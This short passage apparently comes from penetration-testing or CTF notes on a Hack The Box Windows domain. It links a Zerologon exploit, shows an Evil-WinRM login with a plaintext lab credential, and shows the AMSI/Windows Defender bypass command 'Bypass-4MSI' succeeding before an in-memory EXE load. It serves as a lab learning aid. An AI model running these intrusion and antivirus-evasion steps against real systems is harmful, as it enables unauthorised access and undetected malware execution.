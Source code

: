 ## Zerologon

[https://github.com/risksense/zerologon](https://github.com/risksense/zerologon)

## Getting a shell&#x20;

### [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

```
kali@kali:~$ evil-winrm -i htb.local -u henry.vinson_adm -p 'G1#Ny5@2dvht'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents>
```

With Evil-WinRM you can also bypass Windows Defender



```
Evil-WinRM* PS C:\Users\henry.vinson_adm\appdata\local\temp> menu

   ,.   (   .      )               "            ,.   (   .      )       .   
  ("  (  )  )'     ,'             (`     '`    ("     )  )'     ,'   .  ,)
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /    
        \/                               \/          \/       \/         \/      
              By: CyberVaca, OscarAkaElvis, Laox @Hackplayers

[+] Bypass-4MSI
[+] Dll-Loader 
[+] Donut-Loader 
[+] Invoke-Binary

*Evil-WinRM* PS C:\Users\henry.vinson_adm\appdata\local\temp> Bypass-4MSI
[+] Patched! :D
```

Now I can use `Invoke-Binary` to load an EXE from my system into memory:
